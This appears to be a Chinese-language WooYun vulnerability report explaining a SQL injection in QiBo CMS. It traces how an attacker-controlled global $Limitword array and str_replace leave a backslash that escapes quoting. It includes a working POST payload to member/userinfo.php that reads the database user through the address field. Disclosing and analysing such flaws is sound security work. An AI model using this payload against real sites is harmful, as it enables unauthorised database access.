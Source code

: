 ## WooYun-2014-80259：齊博整站-地方門戶SQL注入漏洞

### 詳細說明

看到/member/userinfo.php，112到114行：

```php
//過濾敏感字元

$truename=replace_bad_word($truename);

$introduce=replace_bad_word($introduce);

$address=replace_bad_word($address);
```

這幾句過濾程式碼，意思是想過濾一些"不和諧"的詞語。那我們看看這個replace_bad_word函數。

```php
function replace_bad_word($str){

    global $Limitword;

    @include_once(ROOT_PATH."data/limitword.php");

    foreach( $Limitword AS $old=>$new){

        strlen($old)>2 && $str=str_replace($old,trim($new),$str);

    }

    return $str;

}
```

實際上是一個str_replace，看看data/limitword.php：

```php
<?php 

$Limitword['吃肉']='吃**';

$Limitword['安安你好']='安****好';
```

$Limitword並沒有初值。而include有global $Limitword。
齊博cms是將GET和POST變量註冊成全局變量了，所以global取到的可以是`$_POST[Limitword]`或`$_GET[Limitword]`。也就是說$Limitword是我們可以控制的。

我們可以控制str_replace函數的三個參數。

某變量$str全局做過轉義，導致%00轉義成了\0.我們能夠控制str_replace的前兩個參數，則str_replace('0', '', $str)，再將0轉換成空，則留下了\，這個\可以轉義其後的\'，使之變成\'，導致單引號逃逸出轉義符的限制，造成注入。


```php
$truename=filtrate($truename);

$idcard=filtrate($idcard);

$telephone=filtrate($telephone);

$address=filtrate($address);

$introduce=filtrate($introduce);

$homepage=filtrate($homepage);

function filtrate($msg){

    //$msg = str_replace('&','&amp;',$msg);

    //$msg = str_replace(' ','&nbsp;',$msg);

    $msg = str_replace('"','&quot;',$msg);

    $msg = str_replace("'",'&#39;',$msg);

    $msg = str_replace("<","&lt;",$msg);

    $msg = str_replace(">","&gt;",$msg);

    $msg = str_replace("\t","   &nbsp;  &nbsp;",$msg);

    //$msg = str_replace("\r","",$msg);

    $msg = str_replace("   "," &nbsp; ",$msg);

    return $msg;

}
```

將’等敏感字符過濾了。就算有一個\可以轉義一個'，但是這裡連'都引入不了。
執行的語句類似update table set a='111',b='222' where uid=1，我們引入一個\在111的最後，轉義掉111後面的引號，這樣222就逃逸出了限制，我們的sql注入語句就可以放在222的位置執行了。


### 漏洞證明

先註冊一個用戶

![1](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.17/3.17-1.jpg)

記下自己的uid，以便一會更新數據：

![2](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.17/3.17-2.jpg)

可以先測試一下是否存在注入：

![3](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.17/3.17-3.jpg)


報錯了，說明注入是存在的。
簡單構造一下，向http://localhost/qibov7/member/userinfo.php?job=edit&step=2發送數據包：
```
truename=xxxx%0000&Limitword[000]=&email=123@...&provinceid=,address=(select user()) where uid=38%23
```

將address注入成為user()。 Where後面加上uid=2，防止把其他人的address也注入了。
查看個人注入的地址，即可見注入獲得的結果：


![4](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.17/3.17-4.jpg)


### 修復方案
過濾，轉義。
